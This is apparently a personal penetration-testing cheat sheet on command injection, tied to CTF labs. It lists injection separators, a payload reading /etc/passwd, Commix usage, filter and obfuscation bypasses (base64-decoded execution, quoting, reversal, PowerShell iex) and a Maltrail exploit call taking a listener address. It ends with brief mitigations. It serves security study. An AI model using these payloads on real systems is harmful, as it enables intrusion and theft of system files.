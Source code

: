 # Command injection

[![commandinjections](../../../../_badges/htb/commandinjections.svg)](https://academy.hackthebox.com/course/preview/command-injections)
[![command_injection](../../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![oscommandinjection](../../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![ignite](../../../../_badges/thm-p/ignite.svg)](https://tryhackme.com/room/ignite)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![php_command_injection](../../../../_badges/rootme/web_server/php_command_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
[![command_injection_filter_bypass](../../../../_badges/rootme/web_server/command_injection_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

<div class="row row-cols-lg-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

Assuming we have a list of vulnerable elements such as forms that may be vulnerable, we can try common payloads:

* `;` — `%3B` — run two commands
* `\n` — `%0A` — run two commands
* `&&` — `%26%26` — executed if the previous ones succeed
* `||` — `%7C%7C` — executed if the previous ones failed
* `&` — `%26` — run two commands <small>(background previous)</small>
* `|` — `%7C` — run two commands  <small>(pipe previous one)</small>
* <code>&#96;&#96;</code> — `%60%60` — execute a command in another command
* `$()` — `%24%28%29` — execute a command in another command
* `\n` or `\r\n` — `%0a` or `%0d%0a` — run two commands
* `!x` — bash-specific, replaced with the command n°x in history
* `{id,}` — bash-specific, replaced with `id`

Always try to inject bit by bit using a boolean-based approach.
</div><div>

**Tools** 📚

* [Commix](https://github.com/commixproject/commix) <small>(4.3k ⭐)</small> can detect and automatically exploit applications. It was coded in a similar way that SQLMap for SQL injections.

```ps
$ pipx install git+https://github.com/commixproject/commix.git
$ commix -u 'URL' -d 'xxx=*' # POST request, xxx vulnerable
```

* For manual testing, you can use [onectf request](https://github.com/QuentinRa/onectf/blob/main/docs/request.md) <small>(0.001k ⭐)</small> that automatically [URL encode](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.

```ps
$ pipx install git+https://github.com/QuentinRa/onectf.git
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;id'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls<tab>/'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls /' --tamper aliases,space2tab
```

📚 The wordlists [special-chars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt) can be handy.
</div></div>

<hr class="sep-both">

## Bypass filters

[![bypass_bash_restrictions](../../../../_badges/hacktricks/bypass_bash_restrictions.svg)](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<div class="row row-cols-lg-2"><div>

#### Character Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)

Bypass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) -- bash
* ...

Bypass **slash** character filtering.

* Try using variables (`${PATH:0:1}`) -- may not be set
* Try using variables (`${HOME:0:1}`) -- may not be set
* Try using variables (`${PWD:0:1}`)
* ...

➡️ See also: `printenv` or `env` to list exploitable variables.

#### Bypass using obfuscation

Remember that such payloads may contain filtered characters. See also tools such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```ps
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")
$ # using base64
$ base64 <<< whoami
d2hvYW1pCg==
$ bash<<<$(base64 -d<<<d2hvYW1pCg==) # whoami
$ # using UTF-16 and base64
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
</div><div>

#### Command Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![powershell_basic_jail](../../../../_badges/rootme/app_script/powershell_basic_jail.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Add a pair of quotes/double quotes anywhere within the command

```ps
# available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# available on Linux
$ w\ho\am\i ; who$@ami
```

* Put `^` anywhere within the command

```ps
# available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```

* Filters may have been applied only once

```ps
PS> cat # It doesn't work.
PS> ccatat # It works!
```

* Use variables to split the command

```ps
PS> $a="l"; $b="s" ; & $a$b
```
</div></div>

<hr class="sep-both">

## Additional Notes

Refer to [injection](/cybersecurity/red-team/s4.privesc/linux/utils/injection.md#special-scenarios-) if you need to inject something in the arguments of a custom script.

<div class="row row-cols-lg-2"><div>

#### Mailtrail v0.53

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.04k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```
</div><div>

#### PowerShell Command Injection

[![powershell_command_injection](../../../../_badges/rootme/app_script/powershell_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection)
[![powershell_basic_jail](../../../../_badges/rootme/app_script/powershell_basic_jail.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Reminder of useful payloads: `$(whoami)`, `; whoami`, `$(Get-ChildItem Env:)`, `$(command|Out-string)`, `| powershell command`...
</div></div>

<hr class="sep-both">

## Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Avoid using uncontrolled input in system commands. Always validate and filter user input.

* 🔫 Use the web engine functions instead of system functions

* 📚 Use additional tools such as a WAF, etc.
</div><div>

As always, we can configure the server to block some functions or disable access to folders outside the application directories.

* [PHP Security And Bypasses](/programming-languages/web/php/_general/index.md#php-security-and-bypasses-)
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
* Direct access to a program in a jail?
</div><div>
</div></div>